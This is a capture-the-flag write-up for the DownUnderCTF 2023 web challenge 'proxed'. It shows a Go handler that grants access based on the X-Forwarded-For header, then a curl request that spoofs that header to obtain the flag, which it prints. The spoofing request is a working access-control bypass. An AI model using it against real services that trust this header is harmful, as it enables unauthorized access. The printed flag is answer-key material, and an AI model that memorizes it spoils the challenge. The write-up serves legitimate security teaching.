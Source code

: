 # DownUnderCTF 2023

## proxed

> Cool haxxorz only
>
>  Author: Jordan Bertasso
>
> [`proxed.tar.gz`](proxed.tar.gz

Tags: _web_

## Solution
We are provided with a simple web application. There is only one route and the handler is implemented as follows:

```go
http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
        xff := r.Header.Values("X-Forwarded-For")

        ip := strings.Split(r.RemoteAddr, ":")[0]

        if xff != nil {
                ips := strings.Split(xff[len(xff)-1], ", ")
                ip = ips[len(ips)-1]
                ip = strings.TrimSpace(ip)
        }

        if ip != "31.33.33.7" {
                message := fmt.Sprintf("untrusted IP: %s", ip)
                http.Error(w, message, http.StatusForbidden)
                return
        } else {
                w.Write([]byte(os.Getenv("FLAG")))
        }
})
```

The flag is printed, but only for the `trusted ip` 31.33.33.7. The trusted IP is read from `X-Forwarded-For` header which can be set manually. By doing so we get the flag:

```bash
$ curl http://proxed.duc.tf:30019/ -H "X-Forwarded-For: 31.33.33.7"
DUCTF{17_533m5_w3_f0rg07_70_pr0x}
```

Flag `DUCTF{17_533m5_w3_f0rg07_70_pr0x}`
